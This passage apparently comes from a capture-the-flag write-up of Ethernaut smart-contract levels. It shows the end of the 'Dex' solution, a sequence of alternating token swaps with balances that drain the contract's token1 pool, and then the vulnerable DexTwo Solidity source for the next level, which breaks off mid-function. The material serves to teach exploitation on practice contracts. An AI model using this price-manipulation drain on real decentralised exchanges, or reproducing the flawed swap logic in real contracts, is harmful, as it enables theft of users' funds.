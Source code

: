 > await swapTokens(token2 token1); 
> // [token1: player=24, contract=86] [token2: player=0, contract=110]
> 
> await swapTokens(token1, token2); 
> // [token1: player=0, contract=110] [token2: player=30, contract=80]
> 
> await swapTokens(token2, token1); 
> // [token1: player=41, contract=69] [token2: player=0, contract=110]
> 
> await swapTokens(token1, token2); 
> // [token1: player=0, contract=110] [token2: player=65, contract=45]
> 
> await swapTokens(token2, token1, 45); //since 45 tokens of token2 are remaining.
> // [token1: player=110, contract=0] [token2: player=20, contract=90]
> ```

## 23 Dex Two
In this level we need to steal all the tokens (token1, token2).

#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract DexTwo is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
```
